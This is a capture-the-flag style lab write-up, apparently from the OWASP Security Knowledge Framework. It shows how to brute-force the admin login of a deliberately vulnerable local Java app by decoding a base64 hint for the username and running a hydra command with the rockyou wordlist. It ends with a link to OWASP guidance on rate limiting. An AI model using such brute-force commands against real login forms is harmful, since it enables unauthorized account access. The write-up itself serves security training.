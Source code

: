 # KBID 29 - Brute force login

## Running the app Java

First make sure java is installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following command:

```
$ ./mvnw spring-boot:run
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

The application shows a admin login form, but we don't have the credentials, we'll have to somehow login inorder to solve the challenge, the name of the challenge is 'Ratelimiting', from that we know that we need to bruteforce login, but what would be the username?

Let's do more investigation, upon viewing the source code, there is a base64 message commented out there.

![](../../.gitbook/assets/java/Ratelimiting/1.png)

We are going to decrypt the base64 encoded string using terminal as shown in the below image.

![](../../.gitbook/assets/java/Ratelimiting/2.png)

```text
$ echo 'RGV2ZWxvcGVyIHVzZXJuYW1lOiBkZXZ0ZWFtCkNsaWVudDogUm9ja3lvdQ==' | base64 --decode
$ Developer username: devteam
$ Client: Rockyou
```

## Exploitation

From this, it seems that the developer has an account with username devteam, so we probably need to bruteforce into that =\) Client, rockyou? Are we referring to the rockyou wordlist?

Rockyou Wordlist - [https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou-40.txt)

So we'll have to bruteforce the login form which is post based using some tool, I prefer hydra & burp suite's intruder to do this, in this writeup, i'll demonstrate this using hydra.

Bruteforcing using Hydra

```text
hydra -l devteam -P ./rockyou-40.txt 0.0.0.0 -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid"

let's make this clear since it might be confusing for newbies or those who have never used hydra before.

-l denotes username here.
-P denotes the location of the wordlist with the passwords
0.0.0.0 is the host address
-s denotes the target port.
http-post-form is used to specify that this is a http-post-form.
 "/:username=^USER^&password=^PASS^ <-- These are the post parameters which are being bruteforced.
 F=Invalid <-- This parameter is used to filter out invalid logins.
```

After you launch a bruteforce attack against the login function, after several minutes, you'll get the password like the below screenshot.

![](../../.gitbook/assets/java/Ratelimiting/3.png)

## Additional sources

Please refer to the OWASP's guide for protecting against such type of bruteforce attacks which happens because ratelimiting is not set.

{% embed url="https://owasp.org/www-community/attacks/Brute_force_attack" %}
